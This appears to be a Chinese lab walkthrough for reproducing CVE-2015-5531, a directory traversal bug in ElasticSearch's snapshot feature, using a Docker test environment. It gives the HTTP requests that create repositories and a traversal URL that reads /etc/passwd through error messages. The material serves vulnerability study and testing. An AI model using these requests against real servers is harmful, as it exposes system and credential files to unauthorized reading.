




ElasticSearch 快照和恢复功能目录穿越漏洞（CVE-2015-5531）¶
ElasticSearch是一个分布式的RESTful搜索和分析引擎。
在ElasticSearch 1.6.0及更早版本中，存在一个目录穿越漏洞，攻击者可以利用该漏洞读取系统上的任意文件。
根据目标的具体版本，该漏洞的利用条件也存在不同：在ElasticSearch 1.5.1及更早版本中，无需任何配置即可触发该漏洞；在之后的版本中，必须在elasticsearch.yml配置文件中设置path.repo参数。此配置指定一个必须可写的目录，作为备份仓库的根位置。如果未配置此参数，快照和恢复功能将默认禁用。
参考链接：
环境搭建¶
执行以下命令来启动一个1.6.0版本的ElasticSearch服务器：
docker compose up -d
环境启动后，你可以通过http://your-ip:9200访问ElasticSearch服务器。
漏洞复现¶
1. 创建仓库¶
PUT /_snapshot/test HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
{
"type": "fs",
"settings": {
"location": "/usr/share/elasticsearch/repo/test"
}
}

2. 创建快照¶
PUT /_snapshot/test2 HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
{
"type": "fs",
"settings": {
"location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
}
}

3. 利用目录穿越读取文件¶
发送请求使用目录穿越来读取任意文件。例如，要读取/etc/passwd文件：
http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd

文件内容将包含在错误信息中（经过编码）。解码后即可获得文件内容：
